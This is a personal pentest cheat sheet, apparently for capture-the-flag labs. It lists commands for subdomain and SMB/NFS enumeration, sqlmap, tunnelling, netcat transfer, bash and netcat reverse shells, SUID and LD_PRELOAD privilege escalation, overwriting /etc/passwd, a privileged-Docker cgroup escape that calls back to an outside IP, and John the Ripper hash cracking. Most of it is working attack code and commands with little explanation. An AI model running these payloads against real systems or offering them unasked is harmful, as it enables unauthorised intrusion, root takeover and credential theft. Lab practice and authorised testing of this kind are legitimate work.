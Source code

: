 # Pentest

## Enumeration

### **Brute force subdomains**

```bash
gobuster vhost -u cybercrafted.thm -w ~/pentest/wordlists/shubs-subdomains.txt 
```

```bash
wfuzz -c -f sub-fighter.txt -Z \
    -w ~/pentest/wordlists/shubs-subdomains.txt \
    -H "Host: FUZZ.cmess.thm" --hw 290 cmess.thm
```

### nmap

configure firewall to return RST when TCP port scan occurs (TCP SYN is spoofed)

```
iptables -I INPUT -p tcp --dport <port> -j REJECT --reject-with tcp-reset
```

This can make it extremely difficult (if not impossible) to get an accurate reading of the target(s).

nmap scan with `nmap -sU --top-ports 20 <target>` to make it faster for UDP scans.&#x20;

nmap ping sweep : `nmap -sn 192.168.0.1-254`

```
nmap -p 80 --script http-put --script-args http-put.url='/dav/shell.php',http-put.file='./shell.php'
```

https://nmap.org/nsedoc/

`-Pn` : don't ping host, avoid windows firewall, treat the host as being alive always use `-vv`, better to have more verbosity

#### Enumerate samba shares

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.170.159
```

#### Enumerate nfs

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.170.159
```

say that `/var` has been found, we can mount it locally like that:

```
mkdir tempnfs
sudo mount TARGET_IP:/var tempnfs
```

### **sqlmap**

in google chrome, open network, select call and and copy request header, paste it to a file req.txt

```
sqlmap -r req.txt 
```

## Networking

#### **Tunneling**

Using socat ([static binaries](https://github.com/andrew-d/static-binaries))

Expose port 22 on 8888 (if 22 is only open to localhost for example)

```
socat -d -d TCP-LISTEN:8888,reuseaddr,fork TCP:localhost:22
```

## File transfer

Sending a file through netcat

```bash
# Receiver
nc -l -p 1234 > out.file

# Sender
nc -w 3 [destination] 1234 < out.file

```

## Reverse shell

```bash
bash -i >& /dev/tcp/10.9.6.147/4242 0>&1
nc -lvnp 4242
```

### Get a pseudo terminal over netcat reverse shell

<pre class="language-bash"><code class="lang-bash">python -c 'import pty;pty.spawn("/bin/bash")' # or
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z , Enter 
<strong>stty raw -echo
</strong>fg
# Enter, Enter
export TERM=xterm-256-color</code></pre>

msfvenom : generate reverse shell #todo

## Privilege escalation

### SUID

#### Find suid

```bash
find / -perm -u=s -type f 2>/dev/null
```

#### Abuse python suid&#x20;

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

### **Override /etc/passwd**

generate password salt

```
openssl passwd -1 -salt ignite pass123
# $1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```

Replace

```
jessie:x:1000:1000:jessie,,,:/home/jessie:/bin/bash
```

by

```
jessie:$SALT$:1000:1000:jessie,,,:/home/jessie:/bin/bash
```

### Escape docker privileged container to be run as root

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.147 4244 >/tmp/f" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### **LD\_PRELOAD**

if you see `env_keep+=LD_PRELOAD` in `sudo -l`, then, create `pe.c` :

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Then compile it using:

```bash
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, escalate privileges running

```bash
sudo LD_PRELOAD=pe.so <COMMAND> # Use any command you can run with sudo
```

## Cracking

### John

have a hash.txt file containing

```
username:hash
```

then run :

```
john --wordlist=~/pentest/wordlist/rockyou.txt --format=raw-md5 hash.txt
```

word mangling: markus --> Markus1, Markus2, Markus3, MArkus, MARkus, MARKus, Markus!

```bash
john --single --format=[format] [path to file]
```

Cracking with salt

in the hash.txt file, put \[HASH]$\[SALT]

```bash
john --wordlist=~/pentest/wordlist/rockyou.txt \
    --format='dynamic=sha512($p.$s)' hash.txt
```

## Escape

Alternative to `cat` :&#x20;

```bash
cp FILE /dev/stdout
```

